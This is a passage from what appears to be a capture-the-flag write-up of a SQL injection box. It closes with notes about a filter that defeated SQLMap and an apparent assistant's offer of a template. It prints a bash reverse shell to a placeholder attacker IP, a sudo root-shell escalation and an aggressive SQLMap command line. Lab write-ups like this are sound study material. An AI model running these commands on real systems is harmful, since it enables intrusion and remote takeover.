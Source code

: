```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

## Privilege Escalation

```bash
sudo -l         # Check sudo permissions
sudo /bin/bash  # Run root shell if no password required
```

## SQLMap Tips

```bash
sqlmap -u "http://<target-ip>/vuln.php?id=1" --level=5 --risk=3 --random-agent
```

**Note:** If a WAF or filter causes all responses to be the same regardless of injection success, SQLMap won’t be able to infer injection points.

---

# Final Notes

- The SQLMap Killer filter blocked automated tools by responding identically to all payloads.
    
- Manual testing is critical when dealing with WAFs or custom filters.
    
- This box reinforces the importance of understanding SQL injection logic rather than blindly running tools.
    

```

---

Let me know if you want a template version of this for future web boxes or SQLi labs you work on, or if you'd like a visual breakdown of how union injection flows into privilege escalation.
```
